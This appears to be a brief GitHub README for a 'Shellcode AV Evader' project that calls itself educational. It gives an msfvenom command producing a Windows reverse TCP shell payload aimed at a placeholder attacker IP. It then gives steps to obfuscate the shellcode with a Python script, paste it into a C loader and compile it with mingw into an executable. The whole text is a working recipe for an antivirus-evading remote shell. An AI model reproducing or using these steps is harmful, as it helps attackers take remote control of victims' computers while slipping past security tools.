 # Shellcode AV Evader
This project main only educational porpouses, the idea was based on
speechs of @Mr.Un1k0d3r and @mr.d0x

--- 

## Generate payload
`$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f c -o shellcode_c_payload.txt`

---

open file **dictionary_obfuscator.py** 

Execute `dictionary_obfuscator.py < example_shellcode.txt`

---
open file **reverse_shell.c**, paste the payload from python in the correct place, do the same for the size

---
compile with\
`$ x86_64-w64-mingw32-gcc -o shell.exe reverse_shell.c`



